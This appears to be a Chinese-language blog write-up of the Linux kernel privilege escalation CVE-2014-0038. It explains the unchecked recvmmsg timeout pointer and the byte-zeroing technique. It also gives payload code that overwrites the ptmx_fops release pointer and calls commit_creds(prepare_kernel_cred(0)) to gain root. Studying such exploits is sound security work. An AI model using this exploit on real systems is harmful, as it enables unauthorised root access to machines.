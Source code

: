```yaml
---
layout: post
title : "CVE-2014-0038"
tags : ["socket", "security", "networking"]
---
```


利用漏洞将 ``ptmx_fops`` 返回函数的高字节置零，让它指向payload。然后payload在被kernel执行，调用 ``commit_cred`` 获取root。

# Vulnerability

```c
asmlinkage long compat_sys_recvmmsg(int fd, struct compat_mmsghdr __user *mmsg, unsigned int vlen, unsigned int flags, struct compat_timespec __user *timeout)
{
  int datagrams;
  struct timespec ktspec;

  if (flags & MSG_CMSG_COMPAT)
    return -EINVAL;

  if (COMPAT_USE_64BIT_TIME)
    return __sys_recvmmsg(fd, (struct mmsghdr __user *)mmsg, vlen,
      flags | MSG_CMSG_COMPAT,
      (struct timespec *) timeout);
  ...
```

``timeout`` 是从userland传过来的指针，随后被直接（只做了cast ``(struct timespec *) timeout`` ）传给系统调用 ``__sys_recvmmsg`` 。

- Why ``CONFIG_X86_X32`` is mandatory?


```c
struct timespec {
  __kernel_time_t tv_sec;     /* seconds */
  long    tv_nsec;    /* nanoseconds */
};
typedef __kernel_long_t __kernel_time_t;
```

``__sys_recvmmsg`` 中有两处修改了 ``void *timeout`` .

- 读取 ``timeout``

```c
if (timeout &&
        poll_select_set_timeout(&end_time, timeout->tv_sec,
          timeout->tv_nsec))  // READ ONLY, end_time = timeout
  return -EINVAL;
```
- 更新 ``timeout``

```c
if (timeout) {
  ktime_get_ts(timeout);                         // get now
  *timeout = timespec_sub(end_time, *timeout);   // A - B
  if (timeout->tv_sec < 0) {                     // if timeout really happens
    timeout->tv_sec = timeout->tv_nsec = 0;
    break;                                     // return
  }

  /* Timeout, return less than vlen datagrams */
  if (timeout->tv_nsec == 0 && timeout->tv_sec == 0)
    break;
}
```

所以返回前将 ``timeout->tv_sec = timeout->tv_nsec = 0;``

## 清除一个字节的过程

1. 主进程 ``retval = syscall(__NR_recvmmsg, sockfd, &msgs, 1, 0, (void*)addr)``; 其中 ``addr & 0xFF == 0xFF``
2. 子进程 ``sleep(254)`` 然后 sendto
3. 因为父进程调用 ``recv`` 长达254s之后子进程才发送，所以父进程的调用 ``__NR_recvmmsg`` 会超时
4. 超时发生时，``addr`` 被写 ``0``，然后返回。

# 获取root

- 利用了 ``ptmx_fops`` 的release function指针（在non initialized (and thus writable) kernel memory中）
- 将指针的高3字节置0，使之指向用户空间中的payload
- Open ``/dev/ptmx``, close it and enjoy.

## payload构造


```c
// code 是payload地址
code = (long)mmap((void*)(TTY_RELEASE & 0x000000fffffff000LL), PAYLOADSIZE, 7, 0x32, 0, 0);
// 0x90 技法
memset((void*)code, 0x90, PAYLOADSIZE);
code += PAYLOADSIZE - 1024;
memcpy((void*)code, &kernel_payload, 1024);

// payload 构造
#define COMMIT_CREDS        0xffffffff8108ad40LL
typedef int __attribute__((regparm(3))) (* _commit_creds)(unsigned long cred);
typedef unsigned long __attribute__((regparm(3))) (* _prepare_kernel_cred)(unsigned long cred);

kernel_payload(void* foo, void* bar)
{
    _commit_creds commit_creds = (_commit_creds)COMMIT_CREDS;
    _prepare_kernel_cred prepare_kernel_cred = (_prepare_kernel_cred)PREPARE_KERNEL_CRED;

    /* restore function pointer and following two longs */
    *((int*)(PTMX_FOPS + FOPS_RELEASE_OFFSET + 4)) = -1;
    *((long*)(PTMX_FOPS + FOPS_RELEASE_OFFSET + 8)) = 0;
    *((long*)(PTMX_FOPS + FOPS_RELEASE_OFFSET + 16)) = 0;

    /* escalate to root */
    commit_creds(prepare_kernel_cred(0));

    return -1;
}
```

# 疑问

1. 为什么 ``zero_out`` 只置零1个字节，而不是一个 ``long`` (16 bytes)？
